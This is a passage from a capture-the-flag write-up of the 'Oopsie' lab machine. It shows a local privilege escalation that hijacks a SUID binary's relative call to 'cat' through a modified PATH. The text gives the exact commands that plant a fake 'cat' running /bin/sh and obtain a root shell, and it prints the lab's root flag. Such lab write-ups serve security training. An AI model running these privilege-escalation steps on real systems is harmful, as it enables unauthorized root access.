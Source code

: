 Running the `bugtracker` binary showed a simple program that allowed me to view bugs with the system, one in particular caught my eye:
```
robert@oopsie:/usr/bin$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 2
2
---------------

If you connect to a site filezilla will remember the host, the username and the password (optional). The same is true for the site manager. But if a port other than 21 is used the port is saved in .config/filezilla - but the information from this file isn't downloaded again afterwards.

ProblemType: Bug
DistroRelease: Ubuntu 16.10
Package: filezilla 3.15.0.2-1ubuntu1
Uname: Linux 4.5.0-040500rc7-generic x86_64
ApportVersion: 2.20.1-0ubuntu3
Architecture: amd64
CurrentDesktop: Unity
Date: Sat May 7 16:58:57 2016
EcryptfsInUse: Yes
SourcePackage: filezilla
UpgradeStatus: No upgrade log present (probably fresh install)
```

This seemed very hopeful, but unfortunately `find / -type d -name .config/filezilla 2>/dev/null` came up empty, which must mean the file is only accessable as route.

A **very** long time later, after a lot of research, I found a solution for a root shell.

Using the `string` command I was able to find the system calls used in the bugtracker binary:
```
robert@oopsie:/usr/bin$ strings /usr/bin/bugtracker
------------------
: EV Bug Tracker :
------------------
Provide Bug ID:
---------------
cat /root/reports/
```

The call to `cat` is a relative path, meaning it can be redefined by changing the path, so I ran the following commands to redefine `cat`:
```bash
export PATH=/home/robert:$PATH
echo '/bin/sh' > cat
chmod +x cat
```

Next time I ran bugtracker I was given a root shell and the final flag:
```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/usr/sbin # Removes cat definition
cat /root/root.txt
af13b0bee69f8a877c3faf667f7beacf
```
